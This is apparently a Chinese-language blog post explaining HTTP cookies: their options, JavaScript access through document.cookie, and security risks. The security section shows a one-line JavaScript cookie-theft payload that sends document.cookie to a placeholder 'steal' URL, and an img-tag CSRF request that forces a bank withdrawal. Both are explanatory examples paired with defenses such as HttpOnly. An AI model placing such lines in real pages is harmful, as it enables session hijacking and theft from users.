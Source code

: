 ```yaml
---
title: "HTTP Cookie 的原理与用法"
date: 2018-07-19T13:20:40+08:00
# draft: true
weight: 70
keywords: ["Cookie", "Browser API", "Web Storage", "HTTP", "浏览器 Cookie 用法"]
tags: ["HTTP", "BOM", "Notes"]
categories: ["技术分享"]
author: "Meowu"
# CJKLanguage: Chinese, Japanese, Korean 这样中文摘要才会生效
isCJKLanguage: true
thumbnail : "images/road.jpeg"
---
```



## 浏览器 Cookie

`cookie` 就是浏览器储存在用户电脑上的一小段文本文件。`cookie` 是纯文本格式，不包含任何可执行的代码。一个 Web 页面或服务器告知浏览器按照一定规范来储存这些信息，并在随后的请求中将这些信息发送至服务器，Web 服务器就可以使用这些信息来识别不同的用户。大多数需要登录的网站在用户验证成功之后都会设置一个 `cookie`，只要这个 `cookie` 存在并可以，用户就可以自由浏览这个网站的任意页面。

以下是我登录 `Github` 时响应体：

![Github_Cookies](/images/github_cookies.png)

Web 服务器通过发送一个称为 `Set-Cookie` 的 HTTP 消息头来创建一个 `cookie`，`Set-Cookie` 消息头是一个字符串，其格式如下（中括号中的部分是可选的）：

```shell
Set-Cookie: value; expires=date; path=path
```

`Set-Cookie` 指定的中括号里面的可选项只是给浏览器做记录的。当客户端发起请求，`value` 会被包含在 `HTTP` 报文的 `Cookie` 头中发送到服务器，设置项会被忽略。服务器端框架通常包含解析 `cookie` 的方法，可以通过编程的方式获取 cookie 的值。几乎所有的实现都对 cookie 的值进行了一系列的 URL 编码。对于 `name = value` 格式，通常会对 `name` 和 `value` 分别进行编码，而不对等号 `=` 进行编码操作。`name` 和 `value` 可以有若干个，其它选项分别有以下作用：

#### expires

指定了 `cookie` 何时不会再被发送至服务器，随后浏览器将删除该 `cookie`。没有设置该选项时，`cookie` 的生命周期仅限于当前会话中，关闭浏览器意味着这次会话的结束，所以会话 `cookie` 仅存在于浏览器打开状态之下。

#### domain

指定了 `cookie` 将要被发送至哪个或哪些域中。默认情况下，`domain` 会被设置为创建该 `cookie` 的页面所在的域名，所以当给相同域名发送请求时该 `cookie` 会被发送至服务器。`domain`  选项的值必须是发送 `Set-Cookie` 消息头的主机名（host）的一部分，例如我不能在 [google.com](http://google.com) 上设置一个 `cookie`，因为这会产生安全问题。不合法的 `domain` 选择将直接被忽略。

#### Path

`path` 选项指定了请求的资源 `URL` 中必须存在指定的路径时，才会发送 `Cookie`  消息头。这个比较通常是将 `path` 选项的值与请求的 URL **从头开始**逐字符比较完成的。只有在 `domain` 选项核实完毕之后才会对 `path` 属性进行比较。`path` 属性的默认值是发送 Set-Cookie 消息头所对应的 URL 中的 path 部分。所以上图中第二个 `Set-Cookie` 的名值对只有当请求的是 `github` 子域时才会发送。

#### secure

不像其它选项，该选项只是一个标记而没有值。只有当一个请求通过 `SSL` 或 `HTTPS` 创建时，包含 `secure` 选项的 `cookie` 才能被发送至服务器。这种 `cookie` 的内容具有很高的价值，如果以纯文本形式传递很有可能被篡改。事实上，机密且敏感的信息绝不应该在 `cookie` 中存储或传输，<u>因为 `cookie` 的整个机制原本都是不安全的</u>。默认情况下，在 HTTPS 链接上传输的 `cookie` 都会被自动添加上 secure 选项。

`cookie` 会被浏览器自动删除，通常存在以下几种原因：

1. 会话 `cooke (Session cookie)` 在会话结束时（浏览器关闭）会被删除。
2. 持久化 `cookie（Persistent cookie）` 在到达失效日期时会被删除
3. 如果浏览器中的 `cookie` 数量达到限制，那么 `cookie` 会被删除以为新建的 `cookie` 创建空间。

### 操作 Cookie

浏览器对于每个域下的 `Cookies` 数量和大小是有限制的，为了增加Cookies的储存量，提出了**subcookies:** `name=a=b&c=d&e=f&g=h` 这种方式允许在单个 cookie 中保存多个 name-value 对，而不会超出浏览器 cookie 数量的限制。通过这种方式创建 cookie 的负面影响是，需要**自定义解析方式**来提取这些值，相比较而言 `cookie` 的格式会更为简单。服务器端框架已开始支持 `subcookies` 的存储。

在 JavaScript 中通过 `document.cookie` 属性，你可以创建、维护和删除 cookie。**创建 cookie 时该属性等同于 Set-Cookie 消息头**，而在读取 cookie 时则等同于 Cookie 消息头。在创建一个 `cookie` 时，你需要使用和 `Set-Cookie` 期望格式相同的字符串：

```javascript
document.cookie="name=Nicholas;domain=nczonline.net;path=/";
```

要使用 `JavaScript` 提取 `cookie` 的值，只需要从 `document.cookie` 中读取即可， 它返回的是由分号 `;` 分隔的 `name = value` 字符串。。

**注意：一旦 cookie 通过 JavaScript 设置后便不能提取它的选项，所以你将不能知道 domain，path，expires 日期或 secure 标记。**

### 安全问题

#### 会话劫持

由于可以通过 `document.cookie` 来读取浏览器 `cookies` ，通过一些手段就能导致 `cookies` 被窃取：

```JavaScript
(new Image()).src = "http://www.example/steal?cookie=" + document.cookie
```

微软的 `IE6 SP1` 在 `cookie` 中引入了一个新的选项：`HTTP-only`，HTTP-Only 背后的意思是告之浏览器该 cookie 绝不能通过 JavaScript 的 document.cookie 属性访问。设计该特征意在提供一个安全措施来帮助阻止通过 JavaScript 发起的跨站脚本攻击 (XSS) 窃取 cookie 的行为。

```javascript
Set-Cookie: name=Nicholas; HttpOnly
```

一旦设定这个标记，通过 `documen.cookie`  则不能再访问该 `cookie` 。`IE`  同时更近一步并且不允许通过 `XMLHttpRequest` 的 `getAllResponseHeaders()` 或 `getResponseHeader()` 方法访问 `cookie`，然而其它浏览器则允许此行为。

#### CSRF

加载一张图片可能会导致给服务器发送一个提现的请求：

```JavaScript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；

### 总结

**Cookie** 通常主要用于以下几个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

但是它也存在一些限制以及安全问题：

* 大小限制，通常最多 50 个，或者 4096 B 大小，超过的话会被清楚以腾出空间
* 如果储存了大量 `cookies` ，会导致性能损失
* 导致 XSS 和 CSRF 安全问题
* 隐私泄露

Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie渐渐被淘汰。由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器API已经允许开发者直接将数据存储到本地，如使用 [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) （本地存储和会话存储）或 [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API) 。